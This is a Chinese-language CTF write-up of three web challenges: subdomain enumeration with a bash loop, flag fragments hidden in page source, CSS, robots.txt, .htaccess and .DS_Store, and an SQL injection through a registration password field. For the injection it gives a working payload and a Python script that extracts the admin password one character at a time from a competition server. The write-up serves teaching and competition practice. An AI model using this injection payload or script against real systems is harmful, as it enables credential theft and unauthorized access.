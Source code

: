 # 1 Kitten War: Behind the Domain
host扫一下哪个域名是有解析记录的：
```bash
while read p; do
          echo $p.compass.college;
          host  $p.compass.college
  done <wordlist.txt
```
找到secrets.compass.college是有DNS解析的，在线解析一下：  
https://www.nslookup.io/dns-records/secret.compass.college  
在TXT信息中得到flag

# 2 Kitten War: 5 Cats in a Row=

# Solve
查看源代码得到第一部分flag
>\<!-- Here's the first part of the flag: -->

查看css得到
>/* CSS makes the page look nice, and yes, it also has part of the flag. Here's part 2:  */

查看js得到
>/* How can I keep Google from indexing my website? */

去robots.txt得到第三部分flag

>\# I think this is an apache server... can you Access the next flag?

访问.htaccess (apache分布式配置文件)得到第四部分flag
>\# I love making websites on my Mac, I can Store a lot of information there.

访问.DS_Store 得到第五部分flag
>Congrats! You completed the supply quest. Part 5: 


# Kitten War: Black means Blind
鉴于第三题难度波动大，先看下有没有数据库文件泄露，顺便把session放到jwtCracker里跑  
看到flask和SQL，八九不离十就是注入了  
但是模板参数都不可控，没有SSTI的空间。而且有username的地方都有过滤：
```python
if any(c not in allowed_characters for c in username):
    return False
```
只有创建账户时的password是任意字符的
```python
execute( #这里的password只有长度限制1-50任意字符
  'INSERT INTO users (username, password)'
  f'VALUES (\'{username}\', \'{password}\');'
)
```
构造sql注入语句：
>'||(SELECT substr(password,n,1)FROM users));--

拼接后为：
```sql
INSERT INTO users (username, password) VALUES ('{username}',
 ''||(SELECT substr(password,n,1)FROM users));--');
```
因为hackin9(老板)是作为主键最早被插入的，所以拼接后的语句会将老板密码的第n个字符作为新用户的密码写入数据库。  
我们可以申请32个新用户，依次使用老板密码的第1-32位，然后尝试登录这32个新用户就能得到老板的密码。  
脚本：
```python
import requests

allowed_characters = set('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890')
for i in range(32):
    requests.post("http://103.102.44.218:10002/register",
                  data={"username": f"1145141919{str(i)}",
                        "password": f"'||(SELECT substr(password,{str(i + 1)},1)FROM users));--"})

for index in range(32):
    for char in allowed_characters:
        r = requests.post("http://103.102.44.218:10002/",
                          data={"username": f"1145141919{str(index)}",
                                "password": str(char)})
        if "Incorrect" not in r.text:
            print(char,end="")
            break
```
得到老板的密码uIurDVbIb2gDafUn5YOZIPsxWZOElHLB  
拿密码登录可以被RickRoll。下载音频后记事本/hex/strings打开翻倒最后得到flag  